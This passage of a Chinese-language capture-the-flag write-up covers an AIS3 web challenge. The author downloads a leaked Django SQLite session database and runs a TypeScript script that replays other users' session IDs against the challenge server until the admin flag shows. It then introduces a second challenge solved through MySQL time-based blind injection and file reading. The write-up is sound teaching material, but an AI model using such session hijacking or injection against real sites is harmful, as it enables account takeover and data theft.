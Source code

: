 ```python
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.sqlite3',
        'NAME': BASE_DIR / 'db.sqlite3',
    }
}
```

這邊可以發現 Diango 儲存 Session 的地方是 SQLite3 資料庫，把這個檔案抓下來，在網路上找個 SQLite to JSON 轉換器，使用資料庫內其他使用者的 Session 來嘗試讀取 `/dashboard` 直到遇到已經登入管理員帳號的 Session。另外，網站上有 CSRF 我就順便寫上去了。

```typescript
async function main() {
  const input: Array < {
    session_key: string,
    session_data: string,
    expire_date: string
  } > = await Bun.file('keys.json').json();
  for (const data of input) {
    let csrf = '';
    const response = await fetch('http://chals1.ais3.org:36743/dashboard/', {
      headers: {
        'Cookie': `csrftoken=${csrf}; sessionid=${data.session_key}`
      }
    });
    if (response.headers.getSetCookie().find((cookie: string) => cookie.includes('csrftoken')))
      csrf = response.headers.getSetCookie().find((cookie: string) => cookie.includes('csrftoken')) || '';
    const body = await response.text();
    if (body.includes('AIS3{')) {
      console.log(body);
      break;
    }
  }
}
main();

// Response:
// ...
// <div class="alert alert-primary mt-4" role="alert">Here is your flag: <code>AIS3{Yet_An0th3r_l0gin_pan3l_c2hbKnXIa_c!!!!!}</code></div>
// ...
```

Flag: `AIS3{Yet_An0th3r_l0gin_pan3l_c2hbKnXIa_c!!!!!}`

### It's MyGO

題目作者：[ItisCaleb](https://itiscaleb.com/)\
題目難度：Medium\
解題人數：15/328（我沒解開）

題目要我們讀取 `/flag` 檔案，[MySQL Time Based Blind Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injectio) [LFI](https://dev.mysql.com/doc/refman/8.4/en/string-functions.html#function_load-file)。
